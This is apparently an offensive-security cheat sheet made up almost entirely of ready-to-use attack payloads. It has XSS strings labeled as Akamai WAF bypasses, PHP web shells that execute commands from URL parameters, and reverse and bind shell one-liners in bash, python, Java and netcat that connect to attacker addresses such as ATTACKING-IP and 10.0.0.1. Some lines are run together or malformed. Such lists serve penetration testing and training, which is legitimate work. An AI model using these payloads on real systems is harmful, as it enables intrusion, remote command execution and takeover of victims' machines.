 Limited case Akamai WAF bypass:
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>
// Works in cases where double quotes are escaped <xhzeem/x=\" ....> can also work with single quotes (change it in the payload)

Limited case Akamai WAF bypass:
<div class=xhzeem*/eval?.(value+/()/.source)//"><input value=confirm autofocus onfocus='/*""></div>
// Works in cases where there are multiple reflection points. Don't forget to URL encode the [+] => [%2B] symbol if it's a GET parameter


--------------------------------------------------------------------     
php: 
# Execute one command
<?php system("whoami"); ?>
<?php echo shell_exec("nc.exe -nlvp 4444 -C:\Windows\System32\cmd.exe");?># Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>
<?php echo shell_exec($_GET["cmd"]); ?>
<? passthru($_GET["cmd"]); ?>
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
<?php $c=$_GET[‘c’]; echo `$c`; ?># The same but using passthru
<?php passthru($_GET['cmd']); ?># For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?># preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?># Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?># Using backticks
<?php echo `whoami`; ?># upload nc.php
<?php echo system("nc -lvp 81 -e cmd.exe");?>
# upload nc.exe
# run nc.php on browser--------------------------------------------------------------------
Bash:
0<&196;exec 196<>/dev/tcp/192.168.1.101/80; sh <&196 >&196 2>&196
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
bash -i >& /dev/tcp/<your ip>/<your port> 0>&1
nc -nlvp 443
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip> <your port> >/tmp/f
--------------------------------------------------------------------
python:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
--------------------------------------------------------------------
Java:
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
--------------------------------------------------------------------netcat:
# netcat bind shell
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555# netcat reverse shell